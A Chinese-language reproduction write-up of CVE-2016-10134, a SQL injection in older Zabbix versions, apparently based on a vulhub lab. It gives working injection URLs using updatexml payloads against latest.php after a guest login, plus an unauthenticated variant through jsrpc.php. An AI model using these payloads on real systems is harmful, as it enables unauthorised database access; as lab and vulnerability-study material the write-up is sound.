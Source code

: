 （CVE-2016-10134）Zabbix latest.php sql注入漏洞
===============================================

一、漏洞简介
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本中存在SQL注入漏洞。远程攻击者可借助`latest.php`文件中的`toggle_ids`数组参数利用该漏洞执行任意SQL命令。

二、漏洞影响
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本

三、复现过程
------------

访问`http://www.0-sec.org:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![1.png](./resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId24.png)

将这16个字符作为sid的值，访问`http://www.0-sec.org:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![2.png](./resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId25.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://www.0-sec.org:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![3.png](./resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/zabbix/CVE-2016-10134/
